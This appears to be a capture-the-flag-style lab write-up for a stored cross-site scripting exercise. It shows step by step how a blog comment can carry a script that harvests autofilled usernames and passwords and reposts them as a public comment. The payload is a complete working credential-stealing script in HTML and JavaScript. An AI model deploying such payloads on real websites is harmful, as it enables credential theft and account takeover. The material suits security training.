 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's credentials, then use it to log in to the victim's account.
- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim post their credentials within a blog comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <input type="text" name="username">
  <input type="password" name="password" onchange="hax()">

  <script>
  function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf',token)
  data.append('postId',5);
  data.append('comment',`${username}:${password}`);
  data.append('name','chris');
  data.append('email','chris@01.com');
  data.append('website','http://www.chris.com');

  fetch('/post/comment', {
  method: 'POST',
  mode: 'no-cors',
  body: data
  });
  }
  </script>

- Note: Change the postId parameter according to the post where you're commenting.
- Go back to the post and view that username and password is posted in this format: `username:password`.
- Log in using the credentials to complete the lab.
  
#### How the script works

- This script is designed to exfiltrate the victim’s username and password by leveraging a vulnerable comment form. The form fields `<input name="username">` and `<input name="password">` capture user credentials. When the user types a password, the onchange event triggers the `hax()` function.
- Inside `hax()`, the script extracts:
  - The CSRF token from a hidden input `(name="csrf")`,
  - The values of the username and password fields.
- It then constructs a `FormData` object, which includes:
  - The CSRF token,
  - The stolen credentials formatted as username:password in the comment field,
  - Dummy name, email, and website values.
- Finally, it sends this data using a `fetch()` request to the vulnerable site’s `/post/comment` endpoint. Since `mode: 'no-cors'` is used, the browser won’t block the request, though you won’t see a response in the console. The credentials are silently submitted and saved as a comment on the post.
